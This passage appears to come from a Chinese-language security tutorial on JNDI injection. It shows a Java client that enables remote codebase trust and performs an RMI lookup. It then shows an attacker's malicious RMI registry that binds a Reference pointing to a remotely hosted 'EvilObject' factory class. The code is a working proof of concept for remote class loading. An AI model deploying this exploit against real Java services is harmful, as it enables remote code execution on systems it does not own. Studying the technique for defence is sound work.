 ```java
import javax.naming.InitialContext;
import javax.naming.NamingException;


public class Client {
    public static void main(String[] args) {
        try {
            System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
            Object ret = new InitialContext().lookup("rmi://127.0.0.1:1099/Foo");
            System.out.println("ret: " + ret);
        } catch (NamingException e) {
            e.printStackTrace();
        }
    }

}

```

下面是攻击者搭建的恶意RMI注册表服务：

```java
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Server {

    public static void main(String args[]) {

        try {
            // 通过调用LocateRegistry类的createRegistry()方法并将默认端口号1099作为参数创建一个注册表
            Registry registry = LocateRegistry.createRegistry(1099);
            // 指定要执行的恶意对象的URL，并创建一个Reference类的新对象
            String factoryUrl = "http://localhost:1098/";
            Reference reference = new Reference("EvilObject","EvilObject", factoryUrl);

            // 用ReferenceWrapper类包装恶意引用
            ReferenceWrapper wrapper = new ReferenceWrapper(reference);

            // 使用名称“Foo”将恶意对象绑定到注册表中
            registry.bind("Foo", wrapper);

            System.err.println("Server ready, factoryUrl:" + factoryUrl);
        } catch (Exception e) {
            System.err.println("Server exception: " + e.toString());
            e.printStackTrace();
        }
    }
}
```
